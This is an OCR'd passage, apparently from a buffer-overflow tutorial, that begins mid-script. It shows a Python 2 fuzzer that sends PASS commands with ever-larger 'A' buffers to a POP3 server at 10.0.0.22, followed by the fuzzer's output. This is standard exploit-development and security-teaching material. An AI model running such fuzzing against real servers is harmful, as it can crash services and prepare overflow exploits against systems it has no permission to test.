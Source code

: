 >   print data \# print reply

>   s.close() \# close socket

>   print "\\nDone!"

except:

print "Could not connect to POP3!"

fuzz用户密码:

import socket

\# Create an array of buffers, from 1 to 5900, with increments of 200.

buffer=["A"]

counter=100

while len(buffer) \<= 30:

>   buffer.append("A"\*counter)

>   counter=counter+200

for string in buffer:

>   print "Fuzzing PASS with %s bytes" % len(string)

>   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

>   connect=s.connect(('10.0.0.22',110))

>   s.recv(1024)

>   s.send('USER test\\r\\n')

>   s.recv(1024)

>   s.send('PASS ' + string + '\\r\\n')

>   s.send('QUIT\\r\\n')

>   s.close()

Fuzzing PASS with 1 bytes

…

Fuzzing PASS with 2700 bytes

Fuzzing PASS with 2900 bytes
